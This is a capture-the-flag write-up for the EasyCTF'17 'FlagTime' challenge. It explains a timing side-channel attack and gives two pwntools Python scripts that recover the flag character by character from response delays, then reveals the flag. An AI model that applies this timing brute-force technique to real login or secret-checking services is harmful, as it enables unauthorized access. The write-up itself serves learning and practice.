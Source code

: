 ```yaml
---
layout: post
title: EasyCTF'17 - FlagTime writeup
date: 2018-02-24
---
```

## Description
`This problem is so easy, it can be solved in a matter of seconds. Connect to c1.easyctf.com:12482.`

## Thought process 

So the moment I read the title and description I knew it was something like a [Time-Based Blind SQL Injection](http://www.sqlinjection.net/time-based/)

I began experimenting with different values to see if I could find a pattern ...

* It seems that when the character is wrong, the time taken for the reply is short
![wrong](https://thumbs.gfycat.com/BigBonyBeardedcollie-size_restricted.gif)

* while a correct character resulted in a slightly longer delay in the reply (2 seconds)
![right](https://thumbs.gfycat.com/UnhappyHorribleBichonfrise-size_restricted.gif)

* To test this theory, I tested the first part of the flag *(which is already known as the standard flag format)*
![easyctf{](https://thumbs.gfycat.com/EasygoingPassionateDungenesscrab-size_restricted.gif)
which took a total of 6 seconds, almost 1 second for each correct character 

#### After that I wrote a script to brute force the flag based on a known characterlist:

``` python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	sum = 0
	for t in range(3):
		start = time.time()
		send_msg(s)
		diff = time.time() - start
		sum += diff
	sum = sum / 3
	return sum

#easyctf{e@o%
flag = "easyctf{e@o%Kx3b5"   #the flag is built by adding the "winner" of each round
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@#$%^&*_-=+"
while True:
	
	buff = []

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		buff.append(timeDiff)

	#get the max of all times
	winner = max(buff)
	i = buff.index(winner)

	#add to flag
	flag += chars[i]
	print ">",flag
		
```
Unfortunately this script was not performing as I expected, due to this challenge being hosted in the United States, there is a lot of **fluctuation in RTT** (Round Trip Time) which affects the accuracy of the script, since the script only knows how to pick the character which took the longest time. Not only that, I tried to compensate for the fluctations by taking the average of 3 runs which wasted half a day and provided no benefit at all.

I left the script to run while working on other challenges and when I checked an hour later I got `easyctf{e@o%Kx3b5`, which is basically gibberish :confused:

#### As an example: 
![rip](https://media.giphy.com/media/fQoxpTahV2P21EVvFH/giphy.gif)

I heard others mentioning running their script from a server they rented from Amazon Web Services (located in the US) so I thought I could do the same, but then I remembered I ran out of free Digital Ocean credits and I also didn't want to spend my AWS credits on a challenge like this, so I left the challenge on hold until further notice ...

After a good night's rest, it suddenly came to me that EasyCTF did provide their own **shell server** that players could SSH into ! Why didn't I think of that sooner ? I revised my current script into a faster version and stuck it into the EasyCTF shell server.

I was pleasantly surprised to find that their shell server already had the *pwn* module pre-installed :D
Setting it up on my machine was quite painful but I did learn that `sudo -H pip install --upgrade <package>` solves pretty much everything ~

```python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	start = time.time()
	send_msg(s)
	diff = time.time() - start
	return diff

flag = ""  #easyctf{ezx  (not sure if x or _ they seem close)
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@$_"

while True:
	
	max = 0
	maxChar = None

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		print flag+c,"->",timeDiff
		if timeDiff > max:
			maxChar = c
			max = timeDiff

	#add to flag
	
	flag += maxChar
	print "====>",flag
```
It still wasn't as fast as I'd like, as the time delay in correct characters increases for each character, it became increasingly difficult to bruteforce. 

Based on the length of the characterlist I used : 
* Brute-forcing the first character (0.5 seconds for each reply) would need <u>38 seconds</u> for 1 whole round
* Brute-forcing the 10th character (10 seconds for each reply) would need **<u>12 minutes</u>** for 1 whole round :( 

So my strategy was to let the script brute force the flag whilst I did trial and error beside it at the same time
![many](https://i.imgur.com/INGYBPD.jpg)

Once parts of the flag were uncovered, the rest of the *word* would become trivially guessable                                      
eg. `easyctf{ez_t1m` **->** `easyctf{ez_timing` / `easyctf{ez_t1m1ng` or any variation of *"timing"*

In the end the flag was `easyctf{ez_t1m1ng_4ttack!}` :checkered_flag:

## Things I learnt from this challenge
* How to setup and use the pwn library (for connecting to ports/sockets) 
* This type of attack is called timing attack
* The effect of physical distance between networks that can affect results significantly 


Overall I'm pretty proud that out of 1000-over teams I was one of the first 120 to solve this challenge, although its a Miscallaneous challenge I definitely got a lot out of it ! 
